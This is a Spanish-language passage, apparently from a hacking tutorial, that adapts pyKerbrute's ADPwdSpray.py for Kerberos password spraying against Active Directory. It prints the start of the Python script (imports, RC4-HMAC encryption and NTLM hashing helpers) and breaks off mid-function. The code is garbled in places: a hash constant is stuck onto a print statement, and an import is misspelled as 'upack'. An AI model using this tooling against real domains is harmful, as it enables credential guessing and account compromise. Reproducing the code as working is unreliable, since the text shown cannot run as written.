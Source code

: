 Aqui en vez de crear nuestro script desde zero, uzamos el script en python de [pyKerbrute](https://github.com/3gstudent/pyKerbrute) y la modificamos
El script que nos interessa es el ADPwdSpray.py.

```python
#!/usr/bin/python
import sys, os
import socket, signal
from pwn import *
from random import getrandbits
from time import time, localtime, strftime
from pyasn1.type.univ import Integer, Sequence, SequenceOf, OctetString, BitString, Boolean
from pyasn1.type.char import GeneralString
from pyasn1.type.useful import GeneralizedTime
from pyasn1.type.tag import Tag, tagClassContext, tagClassApplication, tagFormatSimple
from pyasn1.codec.der.encoder import encode
from struct import pack, upack
from pyasn1.type.namedtype import NamedTypes, NamedType, OptionalNamedType
from _crypto import ARC4, MD5, MD4
from time import time, gmtime, strftime, strptime, localtime
import hmac as HMAC
from random import getrandbits, sample

RC4_HMAC = 23
NT_PRINCIPAL = 1
NT_SRV_INST = 2

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")aad3b435b51404eeaad3b435b51404ee
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

def random_bytes(n):
    return ''.join(chr(c) for c in sample(xrange(256), n))

def encrypt(etype, key, msg_type, data):
    if etype != RC4_HMAC:
        raise NotImplementedError('Only RC4-HMAC supported!')
    k1 = HMAC.new(key, pack('<I', msg_type)).digest()
    data = random_bytes(8) + data
    chksum = HMAC.new(k1, data).digest()
    k3 = HMAC.new(k1, chksum).digest()
    return chksum + ARC4.new(k3).encrypt(data)

def epoch2gt(epoch=None, microseconds=False):
    if epoch is None:
        epoch = time()
    gt = strftime('%Y%m%d%H%M%SZ', gmtime(epoch))
    if microseconds:
        ms = int(epoch * 1000000) % 1000000
        return (gt, ms)
    return gt



def ntlm_hash(pwd):
    return MD4.new(pwd.encode('utf-16le'))

def _c(n, t):
    return t.clone(tagSet=t.tagSet + Tag(tagClassContext, tagFormatSimple, n))

def _v(n, t):
```